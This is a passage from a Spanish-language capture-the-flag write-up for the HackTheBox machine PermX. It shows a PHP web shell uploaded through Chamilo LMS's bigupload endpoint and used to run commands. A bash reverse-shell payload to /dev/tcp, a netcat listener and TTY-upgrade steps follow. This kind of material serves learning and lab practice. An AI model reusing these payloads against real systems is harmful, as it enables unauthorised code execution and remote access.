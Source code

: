 ```bash
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-Length: 40
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host lms.permx.htb left intact
The file has successfully been uploaded
```

Dentro de la carpeta `files` vista anteriormente, podremos encontrar el fichero subido y su contenido PHP será procesado como podemos ver:

```bash
❯ curl -v "http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/test.php?uwu=id"
* Host lms.permx.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.23
*   Trying 10.10.11.23:80...
* Connected to lms.permx.htb () port 80
> GET /main/inc/lib/javascript/bigupload/files/test.php?uwu=id HTTP/1.1
> Host: lms.permx.htb
> User-Agent: curl/8.10.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 01 Nov 2024 23:15:57 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 107
< Content-Type: text/html; charset=UTF-8
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host lms.permx.htb left intact
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ahora podemos lanzarnos una reverse-shell simplemente enviado en la URL `http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/test.php?uwu=bash%20-c%20'bash%20-i%20>%26/dev/tcp/10.10.14.188/443%200>%261`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.23 45734
bash: cannot set terminal process group (1174): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ script /dev/null -c bash 
# Inicia un nuevo proceso, alocando una tty nueva.
Script started, output log file is '/dev/null'.
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z # CTRL + Z
[1]  + 22379 suspended  nc -lvnp 443
❯ stty raw -echo; fg  # Pasar controles de la terminal.
[1]  + 22379 continued  nc -lvnp 443 
                                reset xterm   # Reiniciar terminal.
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ stty rows 34 columns 149 # Ajustar filas y columnas.
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ export TERM=xterm-256color # Exportar tipo de terminal.
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ source /etc/skel/.bashrc # Darle colores a la terminal.
```
